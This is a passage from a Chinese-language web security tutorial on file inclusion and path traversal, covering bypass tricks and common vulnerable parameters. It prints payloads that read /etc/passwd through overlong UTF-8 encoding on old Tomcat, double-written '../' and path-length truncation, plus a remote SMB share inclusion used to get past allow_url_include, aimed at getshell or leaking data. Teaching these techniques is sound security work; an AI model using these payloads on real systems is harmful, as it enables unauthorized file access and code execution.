 > 受影响版本：
> 
> Apache Tomcat 6.x
> 
> Apache Tomcat 5.x
> 
> Apache Tomcat 4.x

payload：`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`


### 4. 双写等tricks

有时候后端代码写的不严谨的时候，就很有可能存在绕过，比如使用`str_replace()`将`../`替换为空时，可以使用双写绕过：

`..././..././..././etc/passwd`

具体还要根据实际过滤情况来绕过

### 5. 路径长度截断

这个我本地测试是失败的，做个参考吧

当`php < 5.2.8`时，可以重复使用`./`或`.`来进行截断，linux下需要长度大于4096，windows下需要大于256

``` htmlbars
../../../../etc/passwd/./././././[...]./././././

../../../../etc/passwd/..........[...]..........
```

### 6. bypass allow_url_include = Off

该方法可以绕过`allow_url_include = Off`和`allow_url_fopen = Off`的情况，包含smb共享服务中的文件，但只适用于Windows的服务器，而且国内很多运营商都默认关闭了445端口，所以还是稍微鸡肋了点

SMB的环境搭建可以看这里：[Linux SMB bypass RFI](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

首先我在smb共享文件夹下放一个如下图所示的phpinfo.txt：

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rzdmh4j30n106r74f.jpg)

此时我的php.ini中`allow_url_include`和`allow_url_fopen`都为`Off`，先尝试包含一个远程文件，发现受配置的限制

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5s00qhfj31dq08pta3.jpg)

然后我们尝试包含smb服务的文件：

`?file=\\192.168.206.132\Loong716\phpinfo.txt`

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l628s2o7j312u086aav.jpg)


## 0x04 常见漏洞点与利用

理论上只要是与文件有关的参数都有可能会产生文件包含，比如经常出现在ctf中的：`index.php?action=upload`，可以与`php://filter`配合来读源码 

还有一些带有`path`、`file`的参数，或者参数值是`xxx.xml`等文件的，都也有可能存在文件包含。甚至有些不起眼的参数会有可能，这些可能要fuzz才能发现。

关于利用的话，一般就是配合上传去getshell，或者就是通过文件包含来获取一些敏感信息来帮助我们进一步的渗透
